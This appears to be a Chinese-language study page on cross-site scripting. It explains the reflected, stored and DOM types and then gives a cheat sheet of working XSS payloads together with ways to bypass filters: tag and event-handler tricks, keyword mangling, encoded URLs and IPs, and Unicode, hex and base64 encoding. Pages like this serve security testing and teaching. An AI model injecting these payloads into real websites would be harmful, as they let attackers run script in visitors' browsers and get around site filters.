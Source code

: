 ## 会话管理

HTTP是一种无状态协议，一次请求结束，客户端与服务端的连接就会断开，服务器再次收到请求时，无法识别此次请求是哪个用户发过来的，需要重新建立连接。为了判断发送请求的用户，需要一种记录用户的方式，也就是Web应用会话管理。

#### 基于server端session的管理的方式



## 跨站脚本攻击类型

#### **反射型XSS** 

- 反射型XSS 是非持久型、参数型的跨站脚本，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

- 出现场景:多出现在搜索框或者输入框。


#### 存储型XSS

- 恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性

- 比较常见的场景是，黑客写下一篇包含有恶意JavaScript代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意is代码。


#### DOM型XSS

- DOM，全称Document Object Model (文档对象模型)，是W3C推荐的一种独立于平台和语言的标准，定义了访问HTML和XML文档的标准。

- Dom即window对象下内置的document对象。

  简单理解即输出点在DOM，属于特殊的反射型，只能在URL中输入探测脚本。

---

## 常用测试弹窗和过滤手段

### 一、无过滤直接触发

#### 1、<script>标签

```
<script>alert('xss')</script>
```

#### 2、< img >标签

结合`on`事件触发

```
<img src=1 onerror=alert('xss')>
```

#### 3、< a >标签

结合`javascript`伪协议触发

```
<a href=javascript:alert('xss')>xss</a>
```

结合`on`事件触发

```
<a onclick=alert('xss')>xss</a>
```

#### 4、< input >标签

结合`on`事件触发

```
<input onclick=alert('xss')>
```

#### 5、< from >标签

结合`javascript`伪协议当参数提交时可触发

```
<form action=javascript:alert('xss')>
```

结合`on`事件触发

```
<form onmouseover=alert('xss')>xss</form>
```

#### 6、< iframe >标签

结合`javascript`伪协议当参数提交时可触发

```
<iframe src=javascript:alert('xss')></iframe>
```

结合`on`事件触发

```
<iframe onload=alert('xss')></iframe>
```

#### 7、< details>标签

结合`on`事件触发

```
使用open属性触发ontoggle事件，无需主动触发
<details open ontoggle="alert('xss');">
```

#### 8、< select>标签

结合`on`事件触发

```
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<select onfocus=alert('xss') autofocus>
```

#### 9、其他标签

```
无需用户触发：
<svg onload=alert('xss')>
<body onload=alert('xss')>
<video><source onerror=alert('xss')>
<audio src=x onerror=alert("xss");>
<textarea onfocus=alert("xss"); autofocus>

需要用户触发:
<button onclick=alert('xss')>xss</button>
<p onmouseover=alert('xss')>xss</p>
<d3v/onmouseover=[3].some(confirm)>click
```

### 二、绕过过滤触发

#### 1、过滤空格

使用`/`代替空格

```
<img/src='1'/onerror=alert('xss')>
```

#### 2、过滤引号

使用`反引号`代替空格

```
<img src=1 onerror=alert(`xss`)>
```

#### 3、关键词过滤

常见字符过滤绕过手法

```
大小写
<ImG sRc=1 onerRor=alert('xss')>

双写
<imimgg srsrcc=1 onerror=alert('xss');>

内联注释
<img src=1 oner<!--test-->ror=al<!--test-->ert('xss')>
```

#### 4、过滤括号

可以使用`反引号`代替括号

```
<img src=1 onerror=alert`1`>
```

也可以使用throw来绕过

```
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

#### 5、过滤url地址

```css
使用url编码
<img src="x" onerror=document.location=``http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/``>

使用IP十进制
<img src="x" onerror=document.location=``http://2130706433/``>

使用IP八进制
<img src="x" onerror=document.location=``http://0177.0.0.01/``>

使用IP十六进制
<img src="x" onerror=document.location=``http://0x7f.0x0.0x0.0x1/``>

html标签中用//可以代替http://
<img src="x" onerror=document.location=``//www.baidu.com``>

使用中文的句号。代替英文的点.
<img src="x" onerror="document.location='http://www。baidu。com'">
```

#### 6、编码绕过

```css
Unicode编码绕过
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">

url编码绕过
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

Hex绕过
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制绕过
<img src=x onerror=alert('\170\163\163')>

base64绕过
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```
